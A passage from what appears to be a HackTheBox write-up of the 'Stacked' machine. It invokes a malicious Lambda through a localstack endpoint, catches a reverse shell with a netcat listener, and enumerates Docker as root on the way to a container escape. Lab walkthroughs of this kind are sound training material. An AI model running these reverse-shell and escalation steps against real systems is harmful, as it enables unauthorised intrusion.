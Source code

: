     
    
    oxdf@hacky$ aws lambda invoke --function-name shell --endpoint-url http://s3-testing.stacked.htb out.json
    

It hangs, but a shell returns:

    
    
    oxdf@hacky$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.112] 54300
    bash: cannot set terminal process group (1479): Not a tty
    bash: no job control in this shell
    bash-5.0# 
    

## Shell as root on Stacked

### Enumerate Docker

Because the container is spawning dockers, at least the root user must have
access to the docker socket. As localstack, I could not access it because the
user can’t read the certificate:

    
    
    bash-5.0$ docker ps
    WARNING: Error loading config file:/root/.docker/config.json - stat /root/.docker/config.json: permission denied
    could not read CA certificate "/root/.docker/ca.pem": open /root/.docker/ca.pem: permission denied
    

root doesn’t have that issue:

    
    
    bash-5.0# docker ps
    CONTAINER ID        IMAGE                               COMMAND                  CREATED             STATUS              PORTS                                                                                                  NAMES
    1af67837dbde        localstack/localstack-full:0.12.6   "docker-entrypoint.sh"   4 hours ago         Up 4 hours          127.0.0.1:443->443/tcp, 127.0.0.1:4566->4566/tcp, 127.0.0.1:4571->4571/tcp, 127.0.0.1:8080->8080/tcp   localstack_main
    

There are a handful of images available:

    
    
    bash-5.0# docker image ls
    REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
    localstack/localstack-full   0.12.6              7085b5de9f7c        5 weeks ago         888MB
    localstack/localstack-full   <none>              0601ea177088        6 months ago        882MB
    lambci/lambda                nodejs12.x          22a4ada8399c        6 months ago        390MB
    lambci/lambda                nodejs10.x          db93be728e7b        6 months ago        385MB
    lambci/lambda                nodejs8.10          5754fee26e6e        6 months ago        813MB
    

### Root Filesystem Access
